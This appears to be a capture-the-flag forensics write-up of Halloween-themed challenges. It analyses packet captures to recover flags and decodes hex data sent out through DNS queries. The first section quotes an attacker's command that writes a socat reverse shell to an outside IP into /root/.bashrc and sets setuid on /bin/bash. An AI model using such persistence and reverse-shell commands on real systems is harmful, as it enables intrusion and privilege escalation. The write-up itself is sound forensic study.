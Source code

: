 # **Wrong Spooky Season**
```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us.
I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. 
Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

First challenge, they give us one pcap file. There're two ways you can solve this.

*Unintended solution:*

You can simply use `strings` to see what inside the pcap file.

```
┌──(kali㉿devilmachine)-[/mnt/d/WSL_LAB/Workplace/htb-boo/forensics_wrong_spooky_season]
└─$ strings *.pcap
...
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
VDc0c
'"FO
'"FO
I;r?
ls -lha
'"FO
'"FO
I;rtotal 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
```

So there is a base64 encoded string. Reverse it then decode, we have the flag.

*Intended solution:*

Open the pcap file then follow TCP stream to the last. Here is the result:

~pic~


## FLAG: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
___

# **Trick or Breach**
```
Our company has been working on a secret project for almost a year. None knows about the subject, although rumor is that it is about an old Halloween legend where an old witch in the woods invented a potion to bring pumpkins to life, but in a more up-to-date approach.
Unfortunately, we learned that malicious actors accessed our network in a massive cyber attack. Our security team found that the hack had occurred when a group of children came into the office's security external room for trick or treat.
One of the children was found to be a paid actor and managed to insert a USB into one of the security personnel's computers, which allowed the hackers to gain access to the company's systems.
We only have a network capture during the time of the incident. Can you find out if they stole the secret project?
```

We have another pcap file in this challenge. Let's see what inside:

~pic~

If you notice, there're some strange URLs that were captured during the transfering data. This is DNS Tunneling - one of the real world attack. Those strange URLs that you can see in wireshark were encoded or encrypted. Let's find out by extracting those URLs.

I filtered the query IP the copied whole data to a file

~pic~

```
1	0.000000	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xa49f A 504b0304140008080800a52c47550000000000000000000000.pumpkincorp.com
3	1.062969	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xdd23 A 0018000000786c2f64726177696e67732f64726177696e6731.pumpkincorp.com
5	2.069426	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xcf3f A 2e786d6c9dd05d6ec2300c07f013ec0e55de695a181343145e.pumpkincorp.com
7	3.155776	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xb53f A d04e300ee0256e1b918fca0ea3dc7ed14a36697b011e6dcb3f.pumpkincorp.com
9	4.236338	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x6195 A f9efcd6e74b6f84462137c23eab212057a15b4f15d230eef6f.pumpkincorp.com
11	5.254457	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x5634 A b395283882d76083c7465c90c56efbb41935adcfbca722ed7b.pumpkincorp.com
13	6.298151	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xacfd A 5ea7b2117d8cc35a4a563d3ae0320ce8d3b40de420a6923aa9.pumpkincorp.com
15	7.319849	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x8482 A 09ce497656ceabea45f240089a7bc4b89f26e2eac1039a03e3.pumpkincorp.com
```

Then I wrote this script to extract the encoded/encrypted parts.

```py
f = open('qry.txt','r').readlines()
data = [i.split()[-1].replace('.pumpkincorp.com','') for i in f]
data = "".join(data)
wb = bytes.fromhex("".join(data))
wf = open('sus','wb')
wf.write(wb)
```

___
# **Halloween Invitation**
```
An email notification pops up. It's from your theater group. Someone decided to throw a party. The invitation looks awesome, but there is something suspicious about this document. Maybe you should take a look before you rent your banana costume.
```





